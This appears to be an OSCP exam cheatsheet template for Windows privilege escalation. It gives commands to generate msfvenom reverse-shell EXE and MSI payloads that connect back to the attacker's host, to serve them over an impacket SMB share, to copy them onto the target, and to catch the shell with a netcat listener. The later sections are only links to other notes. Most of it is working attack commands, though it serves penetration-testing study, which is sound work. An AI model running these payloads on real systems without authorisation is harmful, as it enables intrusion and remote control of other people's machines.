



# OSCP-cheatsheet
OSCP cheatsheet (testing mermaid)


### Manual privilege escalation

#### 1- reverse shell generation and file transfer

download [[AccessChk]] as following 
kali side
```powershell
wget https://download.sysinternals.com/files/AccessChk.zip
```

unzip it 
```powershell
unzip AccessChk.zip
```

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f exe -o reverse.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<% tp.frontmatter["LHOST"] %> LPORT=135 -f exe -o reverse.msi
```

**Start [file transfer using SMB server](file%20transfer%20using%20SMB%20server)**
**kali side**
```powershell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

On Windows (update the IP address with your Kali IP):
```powershell
#change C:\PrivEsc\reverse.exe to the target directory + file name
copy \\<% tp.frontmatter["LHOST"] %>\kali\reverse.exe C:\PrivEsc\reverse.exe
copy \\<% tp.frontmatter["LHOST"] %>\kali\reverse.msi C:\PrivEsc\reverse.msi

# tranfering accesschk.exe
copy \\<% tp.frontmatter["LHOST"] %>\kali\accesschk\accesschk.exe C:\PrivEsc\accesschk.exe
```

Test the reverse shell by setting up a netcat listener on Kali:
```powershell
sudo nc -nvlp 135
```

we can test the reverse.exe shell by running it:
```powershell
C:\PrivEsc\reverse.exe
```

#### 2- [Service Exploits](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/2-%20Service%20Exploits.md)



#### 3- [Registry](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/3-%20Registry.md)



#### 4- [Password](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/4-%20Password.md)



